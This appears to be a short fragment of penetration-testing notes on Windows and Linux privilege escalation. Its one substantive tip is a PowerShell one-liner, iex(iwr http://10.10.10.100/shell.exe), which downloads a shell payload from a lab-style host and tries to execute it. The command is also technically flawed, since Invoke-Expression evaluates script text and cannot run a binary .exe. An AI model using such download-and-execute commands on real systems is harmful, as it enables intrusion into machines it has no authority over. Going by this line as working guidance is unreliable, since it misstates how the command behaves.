 # Windows Privilege Escalations
## Important tips
- Use powershell for file transfers
''' iex(iwr http://10.10.10.100/shell.exe) '''
# Linux Privilege Escalations
